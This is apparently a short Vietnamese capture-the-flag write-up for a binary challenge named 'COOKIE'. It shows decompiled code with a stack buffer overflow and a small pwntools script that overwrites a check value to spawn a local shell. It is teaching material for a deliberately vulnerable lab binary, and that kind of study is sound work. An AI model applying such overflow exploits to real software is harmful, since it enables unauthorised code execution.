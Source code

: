 # COOKIE

### Bài này không cho mình hàm main cụ thể, mà chỉ sử dụng hàm _start. Mình có thể dùng IDA để xem.

```sh
int start()
{
  int v0; // eax
  int v1; // eax
  int result; // eax
  _DWORD v3[9]; // [esp-24h] [ebp-24h] BYREF

  v0 = sys_write(1, &hello, 0xEu);
  v1 = sys_read(0, v3, 0x100u);
  if ( v3[8] == 0x414D4B5F )
    result = sys_execve(binsh, 0, 0);
  else
    result = sys_write(1, &bye, 6u);
  return result;
}
```

Mục đích bài này là chúng ta sẽ leo lên shell bằng `sys_execve(bính,0,0)` trong pseudo code ở trên.

Nếu điều kiện không thỏa thì hàm `sys_write(1,&byte, 6u)` sẽ được gọi.

Lỗi Buffer Overflow ở đây khá rõ ràng vì chương trình dùng hàm `sys_read(0, v3, 0x100u)` mà `_DWORD v3[9]; // [esp-24h] [ebp-24h]` bé hơn nhiều so với 0x100

Ta có 
```sh
0x80480ac <_start+44>    int    0x80 <SYS_read>
        fd: 0x0
        buf: 0xffffd520 ◂— 0x0
        nbytes: 0x100

```
Chỉ cần nhập tràn tới biến `v3[8]` và gán `v3[8] = 0x414D4B5F` thì chúng ta sẽ lên được shell.

## File Cookie exploit của mình:
```sh
from pwn import *
s = process("./cookie")
pause()
pl = "aaaaaaabaaacaaadaaaeaaafaaagaaah" + p32(0x414d4b5f)

s.sendline(pl)
s.interactive()

```
